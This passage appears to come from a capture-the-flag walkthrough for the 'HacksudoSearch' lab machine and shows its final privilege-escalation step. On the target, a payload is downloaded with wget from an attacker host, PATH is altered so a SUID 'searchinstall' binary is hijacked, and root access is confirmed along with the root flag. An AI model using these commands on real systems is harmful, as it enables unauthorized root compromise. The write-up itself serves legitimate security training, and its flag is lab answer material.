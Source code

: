 # wget command on the target machine

```bash
wget http://10.0.2.15:8000/install
```

# add path variable

```bash
export PATH=/home/hacksudo/search/tools:$PATH
```

# chmod command (make install a executable)

```bash
chmod +x install
```

Now run the searchinstall command

# searchinstall command

```bash
./searchinstall
```

# proof of root

```bash
root@HacksudoSearch:~/search/tools# whoami
root
```

# root flag

```bash
 _                _                  _         ____                      _     
| |__   __ _  ___| | _____ _   _  __| | ___   / ___|  ___  __ _ _ __ ___| |__  
| '_ \ / _` |/ __| |/ / __| | | |/ _` |/ _ \  \___ \ / _ \/ _` | '__/ __| '_ \ 
| | | | (_| | (__|   <\__ \ |_| | (_| | (_) |  ___) |  __/ (_| | | | (__| | | |
|_| |_|\__,_|\___|_|\_\___/\__,_|\__,_|\___/  |____/ \___|\__,_|_|  \___|_| |_|
You Successfully Hackudo search box 
rooted!!!

flag={9fb4c0afce26929041427c935c6e0879}
```
